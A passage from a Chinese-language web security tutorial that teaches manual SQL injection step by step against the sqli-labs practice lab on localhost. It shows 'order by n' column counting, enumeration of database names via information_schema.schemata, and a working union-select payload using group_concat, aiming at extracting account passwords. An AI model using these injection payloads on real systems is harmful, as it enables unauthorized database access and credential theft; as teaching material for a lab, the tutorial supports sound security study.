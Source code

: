 ### 手工注入

为了让你更好地理解 SQL 注入漏洞的利用，我会一步步地构造注入参数去利用漏洞，直到最终拿到账号密码，这样在后面通过工具自动化利用时，你也能更容易地理解其背后的逻辑。

在注入的过程中，常用到的会有以下几个步骤：获取字段数、枚举系统数据库名、获取当前数据库名、枚举数据库中的表名、枚举表中的字段名、获取字段值、盲注猜解字符串。这些步骤并不是一定的，我只是列举了一些比较常用的，希望对你能有所帮助。

**（1）获取字段数**

在"第06讲"中我讲到了"**联合查询注入**"，我们使用 Union 查询注入爆出了账号和密码，但那是已知字段名的情况下。

在真实的漏洞利用场景中，我们需要自己通过 SQL 注入获取字段名，在此之前还得去获取字段数。前面使用的是 union select 1,2,3... 的方式不断追加查询的字段数来猜测，但如果业务就有很多的字段数，这个方法就有点烦琐了。因此，这里介绍另一种更加简便的方法。

通过 order 做字段排序，可以猜解出正确的字段数：

```sql
order by n   # 通过不断尝试 n 的值直到出错，那么正确字段数就是 n-1
```

这种方法有时会用来判断是否存在 SQL 注入漏洞，同时在使用联合查询方法时，也可以用来获取读取数据。

以 sqli-labs 第 2 题为例，构建以下两个不同的请求会发现返回结果是不一样的，当使用利用"1 order by 3"作为 id 参数时，其返回正常；但当使用"1 order by 4"时却返回错误了：

```sql
正常：http://localhost/Less-2?id=1 order by 3--+
错误：http://localhost/Less-2?id=1 order by 4--+，提示"Unknown column '4' in 'order clause'"
```

这就说明正确的字段数是 3，因为当用于排序的字段数大于总字段数时会出错。

**（2）枚举系统数据库名**

网站上可能会有多个数据库，为了更直接地查看包含业务数据的数据库，我们先枚举出系统的数据库名，然后根据数据库名来猜测有敏感信息的可能性，再针对那个数据库进行测试。

在版本号 5.0 以上的 MySQL 中，数据库名存放在 information_schema 数据库下的 schemata 表的 schema_name 字段中：

```sql
mysql> select null,null,schema_name from information_schema.schemata;
+------+------+--------------------+
| NULL | NULL | schema_name        |
+------+------+--------------------+
| NULL | NULL | information_schema |
| NULL | NULL | challenges         |
| NULL | NULL | mysql              |
| NULL | NULL | performance_schema |
| NULL | NULL | security           |
+------+------+--------------------+
5 rows in set (0.00 sec)
```

从第一步我们得知字段数是 3 个，那么我们就可以通过 select 读取这 3 个字段的内容。由于这里的测试题目，在网页上只显示 1 个字段值，所以我们可以用 group_concat 函数将所有的数据库名连接起来，一次性地将多个字段值放在一个字段中显示。这里我把它放在了第 3 个字段中：

```sql
http://localhost/Less-2/?id=0 union select 1,2,group_concat(schema_name) from information_schema.schemata
```
